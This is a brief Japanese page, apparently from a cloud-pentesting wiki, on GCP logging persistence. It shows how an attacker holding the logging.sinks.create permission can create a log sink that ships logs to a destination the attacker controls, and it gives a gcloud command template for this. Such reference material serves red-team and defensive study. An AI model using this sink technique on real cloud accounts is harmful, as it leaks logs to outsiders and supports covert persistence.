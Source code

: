 # GCP - ロギングの永続性

{{#include ../../../banners/hacktricks-training.md}}

## ロギング

ロギングに関する詳細情報は以下を参照してください：

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

攻撃者がアクセス可能な宛先にログを外部に送信するためのシンクを作成します：
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
